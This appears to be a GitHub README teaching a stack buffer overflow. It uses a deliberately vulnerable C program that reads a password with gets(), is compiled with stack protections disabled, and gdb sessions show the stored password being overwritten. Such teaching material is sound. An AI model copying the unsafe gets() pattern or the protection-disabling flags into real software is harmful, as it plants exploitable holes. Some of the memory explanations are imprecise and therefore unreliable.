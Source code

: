 # StackOverflow

This repo was created to demonstrate the operation of a buffer overflow exploit, we are going to change a password variable within a vulnerable program which might illustrate for example how can an attacker grant access to an assumed program which requires authentication by overwriting the current/real password in the stack memory of a C program affecting **CONFIDENTIALITY AND INTEGRITY**. 

We will also impair the availability of the program generating a segmentation fault error which occurs when when a program attempts to access a memory location that it is not allowed to access, a violation in memory in most standards computers will trigger the OS kernel to perform a corrective action leading the program to be terminated, affecting the **AVAILABILITY** 

## A bit of memory 

Understanding stack-based overflow attacks involves at least a basic understanding of computer memory, let's review some very important concepts. 

### Stack memory: 

A stack is the memory which stores variables created by a function, it's temporary, when the program is finished, the memory of the variable will be automatically erased and the area freed up, the stack is managed by the CPU – so you don’t have to allocate or deallocate memory. The stack section mostly contains methods, local variable, and reference variables. 

![stack memory graph ](https://github.com/tavaresrodrigo/StackOverflow/blob/main/stack.png)
### Heap memory

The heap is the memory used by programming languages to store large block of memory, it's also known as dynamic memory. Unlike the stack this area of memory is managed by the programmer in C for example, variables are allocated and freed using functions like malloc() and free().

![stack memory vs heap memory comparison ](https://github.com/tavaresrodrigo/StackOverflow/blob/main/stackvsheap.png)


## The stack overflow exploit

When the execution stack grows beyond the memory that is reserved for it, you will cause a stack overflow as the stack will eventually consume more memory than is reserved for it and eventually overwrite other buffers in the same stack. 

### The exploit

The [code](https://github.com/tavaresrodrigo/StackOverflow/blob/main/code.c) used to illustrate the exploit has a number of security red flags.

``` C
#include <signal.h>
#include <stdio.h>
#include <string.h>
int main(){
	char realPassword[8];
	char givenPassword[8];

	strncpy(realPassword, "ffffffff", 8);
	gets(givenPassword);
	
	if (0 == strncmp(givenPassword, realPassword, 8)){
		printf("SUCCESS!\n");
	}else{
		printf("FAILURE!\n");
	}
	raise(SIGINT);
	printf("givenPassword: %s\n", givenPassword);
    printf("realPassword: %s\n", realPassword);
	return 0;
}
``` 

### gets()

The function **gets()** is used to read an arbitrary amount of data into a stack buffer without limiting the amount of data read, it just reads the data and dumps it into memory, basically this function does not matches the size of the data read with the size of the buffer, in our case **8**, which means we can pass any value to the buffer and it will be written into the stack memory.

### Compiling the code

For years attackers have been exploiting vulnerabilities in the stack memory, so it's expected that the compilers have developed mechanisms to protect the program execution against these attacks, for this this reason we will disable them in order to be able to reproduce the segmentation fault, in order to compile the program you should use the parameters below:

``` bash
# gcc -fno-stack-protector -z execstack -o code code.c
```

Do you remember the gets() ? Look at the compiler alert **"the `gets' function is dangerous and should not be used."**:

```bash
code.c: In function ‘main’:
code.c:9:2: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
    9 |  gets(givenPassword);
      |  ^~~~
      |  fgets
/usr/bin/ld: /tmp/ccipvQhp.o: in function `main':
code.c:(.text+0x2a): warning: the `gets' function is dangerous and should not be used.
```
### Running the code

As you might have noticed, the [programmer](https://blog.rapid7.com/2019/02/19/stack-based-buffer-overflow-attacks-what-you-need-to-know/)[1] had configured a **SIGINT** in the code that allows us to use the debugger[2] to dive deep in the stack frames and confirm what is happening at the memory level, let's run the program and pass "aaaaaaaaaaaaaaaa" 16xa which will dump 4 frames in the stack as we can see below: 

```bash
(gdb) run
Starting program: /home/vagrant/StackOverflow/code
aaaaaaaaaaaaaaaa
FAILURE!
```

Now let's check the area of memory where our 16x was stored, first we need to check where exactly the stack memory is :

```bash
(gdb) info frame
Stack level 0, frame at 0x7fffffffe480:
 rip = 0x7ffff7e1618b in __GI_raise (../sysdeps/unix/sysv/linux/raise.c:50); saved rip = 0x555555555237
 called by frame at 0x7fffffffe4d0
 source language c.
 Arglist at 0x7fffffffe358, args: sig=<optimized out>
 Locals at 0x7fffffffe358, Previous frame's sp is 0x7fffffffe480
  Saved registers:
  rip at 0x7fffffffe478
```

We already know from where to start the search so let's show at least 100 frames on the screen:

```bash
(gdb) x/100x 0x7fffffffe358
[...]
0x7fffffffe468:	0x6b453000	0x0ddcad0a	0x00000000	0x00000000
0x7fffffffe478:	0x55555237	0x00005555	0x61616161	0x61616161
0x7fffffffe488:	0x61616161	0x61616161	0xf7fc0f00	0x00007fff
0x7fffffffe498:	0x55555270	0x00005555	0x66666666	0x66666666
0x7fffffffe4a8:	0x555550e0	0x00005555	0xffffe5b0	0x00007fff
[...]
```

### Overwriting the program variable in the stack

In [ASCII](https://www.rapidtables.com/code/text/ascii-table.html) [3] "a" is 61 as "f" is 66, so as we could see the 4 frames filled up with our input, and most importantly, we noticed there are only 4 frames (16K) between the area of memory which is storing the realPassword "0x66666666", what happens if we store 52xa (12+1 frames) running our program one more time ?

```bash
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/vagrant/StackOverflow/code
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
SUCCESS!
```
Voila, **SUCCESS** the realPassword was overwritten and the new password in memory now is equivalent to "realPassword, "ffffffff", 8"., if we check the memory again we will confirm that the following frames were dumped with "0x61616161":

```bash
(gdb) x/100x 0x7fffffffe358
[...]
0x7fffffffe468:	0x553fd900	0x4d79bf14	0x00000000	0x00000000
0x7fffffffe478:	0x55555237	0x00005555	0x6d6d6f63	0x20646e61
0x7fffffffe488:	0x61616161	0x61616161	0x61616161	0x61616161
0x7fffffffe498:	0x61616161	0x61616161	0x61616161	0x61616161
0x7fffffffe4a8:	0x61616161	0x61616161	0x61616161	0x61616161
0x7fffffffe4b8:	0x00000000	0x00000000	0x00000000	0x00000000
[...]

```

### To reproduce this exploit you will


## References


[1]https://blog.rapid7.com/2019/02/19/stack-based-buffer-overflow-attacks-what-you-need-to-know/    
[2]https://www.gnu.org/software/gdb/    
[3]https://www.rapidtables.com/code/text/ascii-table.html       
[3]https://owasp.org/www-community/vulnerabilities/Buffer_Overflow          
[4]https://www.youtube.com/watch?v=1S0aBV-Waeo          